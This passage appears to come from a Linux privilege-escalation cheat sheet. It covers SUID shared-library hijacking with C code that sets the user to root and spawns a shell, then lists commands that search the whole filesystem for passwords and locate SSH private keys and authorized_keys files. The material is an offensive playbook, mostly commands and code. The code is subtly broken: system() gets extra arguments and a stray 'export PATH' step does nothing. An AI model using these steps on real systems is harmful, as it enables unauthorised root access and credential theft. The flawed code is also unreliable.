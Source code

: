 Finally, run the SUID

### Dynamic Library Hijacking

Check SUID share library

```bash
ldd /usr/bin/suidprogram
```

Determine which share library configuration files available

```bash
ls -l /etc/ld.so.conf.d/
```

Build C++ privilege escalation code

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0); setgid(0); system("/bin/sh",NULL,NULL);
}
```

```bash
export PATH
```

Recheck the the SUID

```bash
ldd /usr/bin/suidprogram
```

Finally, run the SUID.

## Password & SSH keys

### Passwords

```bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```

> **_NOTE:_** Use "PASS" instead of "PASSWORD" for more result

### SSH keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
